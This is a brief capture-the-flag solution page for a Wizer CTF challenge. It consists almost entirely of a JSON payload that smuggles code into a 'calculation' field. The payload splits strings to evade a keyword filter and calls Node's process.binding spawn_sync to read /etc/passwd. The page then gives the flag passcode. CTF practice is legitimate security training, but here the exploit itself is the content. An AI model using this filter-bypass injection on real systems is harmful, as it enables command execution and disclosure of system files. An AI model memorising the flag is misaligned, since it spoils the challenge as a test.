 # Solution

Challenge: <https://wizer-ctf.com?id=x16yuf>

```json
{"calculation":"eval('proc'+'ess.binding(`spaw`+`n_sync`).spaw'+'n({file:\"/bin/cat\",args:[\"/bin/cat\",\"/etc/passwd\"],stdio:[{type:\"pipe\",readable:!0,writable:!1},{type:\"pipe\",readable:!1,writable:!0},{type:\"pipe\",readable:!1,writable:!0}]}).output[1]')"}
```

Flag passcode: `C0MM@ND 1NJ3CT!0N BYP@55`
